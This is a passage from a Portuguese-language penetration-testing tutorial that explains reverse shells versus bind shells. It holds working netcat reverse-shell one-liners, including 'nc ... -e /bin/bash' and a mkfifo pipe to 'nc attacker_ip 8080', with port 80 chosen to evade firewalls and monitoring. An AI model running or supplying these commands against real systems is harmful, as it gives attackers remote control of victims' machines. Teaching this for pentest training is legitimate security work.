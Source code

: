 Isso é possível pois geralmente quem faz as requisições são os computadores da rede interna para um servidor externo (como o acesso a um webserver) e não o contrário.

Além disso, uma *bind shell* pode gerar um alerta suspeito no alvo devido ao processo de binding com uma porta. Um funcionário comum de escritório não necessita abrir um servidor em uma porta não-padrão no dia-a-dia.

Vamos entender o fluxo e as vantagens de se utilizar uma shell reversa:

> 1. O atacante irá subir um pequeno servidor na sua máquina
> 2. Ele enviará um pequeno malware para a vítima, que quando clicado irá tentar se comunicar com o servidor do atacante
> 3. O atacante irá enviar comandos para a vítima, que irá executar e retornar seu output

> Por vezes, esse tipo de servidor é chamado de servidor C2, C&C ou command-and-control

![fdd20dfc61cf48992f4eb616c548b8cc.png](../img/pentest-0x00/f68a29657fa642c7bd72465f063995e9.png)

Note que a diferença principal de uma shell reversa para uma shell bind é que o servidor estará do lado do atacante, permitindo mascarar o tráfego e evitar criar um servidor na vítima. A execução de comandos se dá da mesma forma que a bind shell.

Os comandos a serem executados para a realização de uma shell reversa via netcat são os seguintes:

Atacante:
```sh
nc -nlvp 80
```

Vítima:
```sh
nc ip_do_atacante 80 -e /bin/bash
```

Lembrando que podemos mudar o interpretador para o `cmd.exe` ou qualquer outro que exista no ambiente.

Especificamos a porta 80 por uma razão bem importante: geralmente tráfego na porta 80/HTTP é liberado em diversas empresas, e logo não terá restrições de comunicação. Para um cenário simples de monitoramento de rede, é apenas uma conexão de um computador com um site, por exemplo.

### Exemplo 8 - Reverse shell (nova forma)
Versões padrão do netcat podem não conter mais a opção `-e`, que torna o trabalho do pentester um pouco mais complicado.

Contudo, mesmo sem essa opção é possível utilizar a ferramenta para estabelecer uma shell reversa com o alvo. Para isso, utilizaremos parte da linha de comando do Netcat OpenBsd, disponível no github do [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#netcat-openbsd).

Atacante:
```sh
nc -nlvp 8080
```

Vítima:
```sh
mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc attacker_ip 8080 >/tmp/f
```
